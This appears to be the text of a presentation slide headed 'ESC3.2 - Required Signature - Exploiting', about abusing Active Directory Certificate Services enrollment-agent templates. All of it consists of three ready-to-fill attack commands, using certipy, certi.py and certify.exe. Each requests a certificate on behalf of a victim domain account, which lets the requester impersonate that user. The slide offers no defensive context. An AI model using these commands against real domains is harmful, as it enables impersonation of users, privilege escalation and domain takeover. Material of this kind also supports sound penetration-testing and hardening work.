

# ESC3.2 - Required Signature - Exploiting
certipy req -u USER@DOMAIN -p PASS -ca ENROLL_SERV -target CA_DNS -template TEMPLATE -on-behalf-of 'DOMAIN\VICTIM' -pfx CERT.pfx

python3 certi.py req DOMAIN/USER:IP@CA ENROLL_SERV -t TEMPLATE --on-behalf DOMAIN\VICTIM

certify.exe request /ca:IP(OR DNS)\ENROLL_SERV /template:TEMPLATE /onbehalfof:DOMAIN\VICTIM /enrollcert:C:\PATH\TOCERT.pfx